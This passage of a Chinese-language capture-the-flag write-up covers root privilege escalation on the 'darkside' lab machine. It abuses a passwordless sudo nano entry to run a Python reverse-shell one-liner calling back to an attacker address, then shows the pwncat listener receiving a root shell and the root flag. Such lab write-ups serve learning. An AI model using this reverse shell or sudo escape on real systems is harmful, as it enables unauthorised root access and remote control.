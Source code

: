 ### 提权探测

```plaintext title="sudo -l"
Matching Defaults entries for rijaba on darkside:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User rijaba may run the following commands on darkside:
    (root) NOPASSWD: /usr/bin/nano
```

尝试提权

```bash
(remote) rijaba@darkside:/home/rijaba$ sudo /usr/bin/nano
```

然后 `Ctrl` + `T`，执行指令

```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.56.102",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'
```

成功收到回连的shell

## User - root

```bash
┌─[randark@parrot]─[~]
└──╼ $pwncat-cs -lp 9999
[17:07:03] Welcome to pwncat 🐈!
[17:07:34] received connection from 192.168.56.107:33802
[17:07:34] 192.168.56.107:33802: registered new host w/ db
(local) pwncat$ back
(remote) root@darkside:/home/rijaba# whoami
root
```

### flag - root

```bash
(remote) root@darkside:/root# cat root.txt 
  ██████╗░░█████╗░██████╗░██╗░░██╗░██████╗██╗██████╗░███████╗
  ██╔══██╗██╔══██╗██╔══██╗██║░██╔╝██╔════╝██║██╔══██╗██╔════╝
  ██║░░██║███████║██████╔╝█████═╝░╚█████╗░██║██║░░██║█████╗░░
  ██║░░██║██╔══██║██╔══██╗██╔═██╗░░╚═══██╗██║██║░░██║██╔══╝░░
  ██████╔╝██║░░██║██║░░██║██║░╚██╗██████╔╝██║██████╔╝███████╗
  ╚═════╝░╚═╝░░╚═╝╚═╝░░╚═╝╚═╝░░╚═╝╚═════╝░╚═╝╚═════╝░╚══════╝


youcametothedarkside
```

